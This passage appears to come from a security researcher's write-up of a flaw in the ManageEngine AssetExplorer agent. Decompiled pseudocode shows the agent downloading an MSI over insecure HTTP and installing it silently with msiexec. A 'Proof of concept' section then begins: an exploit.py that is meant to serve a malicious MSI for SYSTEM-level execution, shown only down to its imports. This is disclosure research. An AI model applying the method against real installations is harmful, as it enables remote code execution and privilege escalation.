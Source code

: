After receiving the successful response from the attacker's server, the agent server copies agentcontroller.exe binary in windows temp folder and executes the command "agentcontroller.exe -upgrade". Following pseudo code shows this behaviour.

```c
	sub_40112C(v6, L"%s -upgrade", (unsigned int)L"agentcontroller.exe");
    }
    else
    {
      sub_40112C(v6, L"%s -r", (unsigned int)L"agentcontroller.exe");
    }
    sub_40105F(lpPathName, (int)v6, -1);
    free(v6);
```

The agentcontroller.exe when executed with -upgrade option, simply downloads the new/malicious binary residing at "/agent/ManageEngineAssetExplorerAgent.msi" server path using insecure HTTP connection  and executes it. 


```c
/*Pseudo code for agentcontroller.exe downloading and executing the malicious .msi binary using windows msiexec utility*/


  if ( sub_40105F((int)v0, lpszServerName, v4, (int)L"/agent/ManageEngineAssetExplorerAgent.msi", v2)
      && (v5 = _wtoi(v15), sub_40105F((int)v0, v17, v5, (int)L"/agent/ManageEngineAssetExplorerAgent.msi", v2)) )
    {
      Log Function(...) 
      sub_4010BE(
        v1,
        L"%s?status=failed&agentId=%s&wsName=%s&action=%s&error=%d",
        (unsigned int)L"/discoveryServlet/AgentStatusServlet");
      sub_401005((int)v0, (int)lpszServerName, (int)v17, v15, (int)v1);
    }
    else
    {
      Log Function(...) 
      v6 = (wchar_t *)calloc(2u, 0x3E8u);
      v7 = (int)v6;
      if ( v6 )
        sub_4010BE(v6, L"MsiExec.exe /i %s /q ALLUSERS=1 /log aeagent_msi_install.log", (char)v18);
```


### **Proof of concept**
Following POC exploit scripts can be used in conjuction to serve a malicious MSI binary to the agent which will be executed with `NT Authority/System` privileges.



>exploit.py

```python
#!/usr/bin/env python
# Author: Sahil Dhar (@0x401)
# usage: python3 exploit.py <target>

from http.server import  BaseHTTPRequestHandler
from http.server import  HTTPServer
import code
import os
import threading
import socket
import sys
import ssl
```
